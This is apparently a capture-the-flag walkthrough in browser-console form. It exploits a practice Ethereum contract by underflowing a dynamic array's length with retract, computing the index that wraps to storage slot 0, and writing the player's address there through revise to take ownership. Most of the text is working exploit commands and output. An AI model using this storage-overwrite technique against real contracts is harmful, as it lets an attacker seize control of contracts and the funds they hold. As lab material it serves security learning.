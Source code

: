 >await contract.abi
(11) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
0: {constant: false, inputs: Array(2), name: 'revise', outputs: Array(0), payable: false, …}
1: {constant: true, inputs: Array(0), name: 'contact', outputs: Array(1), payable: false, …}
2: {constant: false, inputs: Array(0), name: 'retract', outputs: Array(0), payable: false, …}
3: {constant: false, inputs: Array(0), name: 'make_contact', outputs: Array(0), payable: false, …}
4: {constant: false, inputs: Array(0), name: 'renounceOwnership', outputs: Array(0), payable: false, …}
5: {constant: true, inputs: Array(0), name: 'owner', outputs: Array(1), payable: false, …}
6: {constant: true, inputs: Array(0), name: 'isOwner', outputs: Array(1), payable: false, …}
7: {constant: true, inputs: Array(1), name: 'codex', outputs: Array(1), payable: false, …}
8: {constant: false, inputs: Array(1), name: 'record', outputs: Array(0), payable: false, …}
9: {constant: false, inputs: Array(1), name: 'transferOwnership', outputs: Array(0), payable: false, …}
10: {anonymous: false, inputs: Array(2), name: 'OwnershipTransferred', type: 'event', constant: undefined, …}
length: 11
[[Prototype]]: Array(0)

>await contract.owner()
'0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'

>await contract.contact()
false

>await contract.make_contact()
{tx: '0xc223773398fefde346210b099f65cba6a0ed1ef1d1558a9d3034b16000f4423c', receipt: {…}, logs: Array(0)}

>await web3.eth.getStorageAt(contract.address, 0, console.log) //single slot with two items 
'0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272' //same contract owner -> da5b3

>await contract.contact()
true 

//Modify codex length to 2256 by invoking retract:
>await contract.retract() 
 {tx: '0xeec2b183b5e29f05a21827df4fe47f0a425ea04a2757e54b03cebbc11e6ae8ee', receipt: {…}, logs: Array(0)}

Keccak256(k . p) 
k = key. value corresponding to the mapping 
p = position. storing the array length 

// starting with slot 1, which is where the length. array is defined
>p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
'0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'

//Converting hashed value to BigInt, we're able to subtract back to Slot 0 of the codex
>i = BigInt(2 ** 256) - BigInt(p)
35707666377435648211887908874984608119992236509074197713628505308453184860938n

//Padding our address with 0's to meet the expected 32 byte length.
//Exploiting a flaw in the ABI specs - Doesn't validate that the length of the array matches the length of the payload 
>content = '0x' + '0'.repeat(24) + player.slice(2)
'0x000000000000000000000000F6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//place our content into the owner array index location 
//our address location of the index which is sitting at the zero location and we're going to take ownership of it
>contract.revise(i, content, {from:player, gas:900000}) // i = index 

//Hack Success!! validate we're owner! 
>await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'